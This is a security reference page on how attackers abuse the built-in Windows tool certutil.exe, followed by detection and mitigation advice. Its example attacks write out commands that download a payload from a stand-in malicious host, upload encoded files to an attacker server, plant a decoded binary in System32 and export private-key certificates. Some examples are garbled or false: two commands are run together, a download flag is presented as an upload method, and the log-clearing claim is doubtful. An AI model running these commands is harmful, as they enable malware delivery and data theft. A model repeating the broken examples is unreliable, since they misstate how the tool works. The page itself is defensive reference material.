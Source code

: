 # certutil.exe
## What is it?
*```certutil.exe``` is a **built-in Windows command-line utility** used for managing certificates and PKI (Public Key Infrastructure) operations.*  
*It allows users to **install, verify, export, import, and delete certificates**, making it a crucial tool for system administrators.*  

*Because it is a **trusted Microsoft binary**, attackers can **abuse it** for **data exfiltration, malware delivery, persistence, and credential theft** while bypassing security controls.*

## Legitimate Usage
- **Manage Certificates** → Install, delete, and validate certificates.
- **Retrieve CA Information** → Query and configure Certificate Authorities.
- **Convert Certificate Formats** → Encode and decode certificates (Base64, DER).
- **Check Revocation Lists (CRLs)** → Verify certificate validity.
- **Back up and Restore Certificates** → Export/import certificates for system recovery.

## How to abuse it
- **Download & Execute Malware** → Fetch payloads from the internet via ```certutil.exe -urlcache -f```.
- **Obfuscate & Encode Data** → Hide malicious code using Base64 encoding.
- **Exfiltrate Sensitive Data** → Convert files into Base64 and exfiltrate them via HTTP.
- **Bypass Security Controls** → Use a **trusted binary** (LOLBas) to evade detection.
- **Credential Dumping** → Extract certificates that store private keys for authentication.
- **Remove Security Logs** → Modify or delete certificates used for logging and security enforcement.

## Example Attacks
### 1. Download & Execute Malware
*Attackers use ```certutil.exe``` to download malicious payloads from the internet.*

```
certutil -urlcache -split -f http://malicious.com/payload.exe payload.exe
```

**Effect:**
- Downloads ```payload.exe``` from ```http://malicious.com```.
- **Bypasses security tools** that block common downloader scripts.

### 2. Obfuscate and Encode Malware (Base64)
*Attackers encode malware using Base64 to evade detection.*

**Encode File in Base64**

```
certutil -encode malware.exe encoded.txt
```

**Decode Base64 File**

certutil -decode encoded.txt decoded.exe

**Effect:**
- Hides malware as a harmless Base64 text file.
- Prevents detection by antivirus tools that scan executables.

### 3. Data Exfiltration via Base64 Encoding
*Attackers steal sensitive data by encoding it into Base64 and sending it over HTTP.*

```
certutil -encode C:\SensitiveData.txt encodedData.txt certutil -urlcache -split -f http://attacker.com/upload encodedData.txt
```

**Effect:**
- Converts **stolen data** into an **innocent-looking text file**.
- Uploads the encoded data to an **attacker-controlled server**.

### 4. Bypassing Application Whitelisting
*Security policies often allow certutil.exe to run since it is a trusted Microsoft binary.*

**Copy Malware to a Trusted Location**

```
certutil -decode malware.b64 C:\Windows\System32\trusted.exe
```

**Effect:**
- Drops malware into a **whitelisted directory**, bypassing security restrictions.

### 5. Credential Theft (Exporting Certificates with Private Keys)
*Attackers extract certificate-based authentication credentials to impersonate users.*

```
certutil -exportPFX MY stolen.pfx
```

**Effect:**
- Exports **authentication certificates** with **private keys**, enabling **pass-the-cert attacks**.

### 6. Clearing Security Logs (Tampering with Certificates)
*Attackers modify or delete security-related certificates to disrupt monitoring.*

```
certutil -delstore MY "SecurityLogCert"
```

**Effect:**
- Removes **logging certificates**, disrupting **security monitoring**.

## Detection & Mitigation
### Detection Methods
**Monitor Network-Based Abuse**
- **Detect unauthorized internet access using certutil.exe** (e.g., downloading payloads).
- **Event ID 4688 (Process Creation)** → Look for suspicious command-line usage.

**Check for Unexpected Certificate Activity**
- **Event ID 4886 & 4887 (Certificate Issuance/Denial)** → Monitor unusual certificate requests.
- **Event ID 4769 (Kerberos Authentication Ticket Request)** → Look for pass-the-cert attacks.

**Detect Base64 Encoding/Decoding**
- **Look for encoded files in ```C:\Users\Public\``` or temp folders.**
- **Monitor commands with ```certutil -encode``` or ```certutil -decode``` in logs.**

### Mitigation Strategies
- **Restrict Internet Access for certutil.exe** → Block outgoing network requests.
- **Use Application Control (AppLocker, WDAC)** → Prevent abuse of ```certutil.exe```.
- **Limit Certificate Export Permissions** → Restrict access to **private keys**.
- **Monitor File & Process Activity** → Track unusual Base64 encoding/decoding.
